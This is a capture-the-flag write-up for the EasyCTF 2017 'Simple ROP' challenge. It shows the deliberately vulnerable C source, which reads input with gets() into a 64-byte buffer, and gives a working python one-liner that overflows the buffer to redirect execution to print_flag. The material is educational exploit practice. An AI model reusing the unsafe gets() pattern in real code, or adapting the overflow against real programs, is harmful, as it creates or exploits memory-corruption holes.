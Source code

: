 # Simple ROP - 120 Points

Read flag.txt

[Source](https://raw.githubusercontent.com/EasyCTF/easyctf-2017-problems/master/simple-rop/simple-rop.c)

[Binary](https://github.com/EasyCTF/easyctf-2017-problems/blob/master/simple-rop/simple-rop?raw=true)

### Solution

###### Writeup by VoidMercy from phsst

We were given a binary and it's source code.

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}
```

As the problem name suggests, this is a problem that uses ROP. We can see that we have to call the function print_flag() to get the flag, so we first get the address of this function with:

>objdump -d simplerop | grep "print_flag"

We find the address of print_flag to be: 0x804851a

Then, we have to find out the number of characters until we gain control of eip through the return address. Afterwards we append the address of print_flag() in little endian order (reversed order in chunks of 2 bytes), then pipe the input through python (to print the non printable ascii characters).

```
python -c 'print "A"*64+"\x1a\x85\x04\x08"' | ./simple-rop #NO SEG FAULT, NOT ENOUGH CHARACTERS

python -c 'print "A"*76+"\x1a\x85\x04\x08"' | ./simple-rop #GOT THE FLAG! 76 IS A PRETTY COMMON SIZE FOR AN ARRAY OF 64 CHARS
```

## Flag

>easyctf{r0p_7o_v1ct0ry}
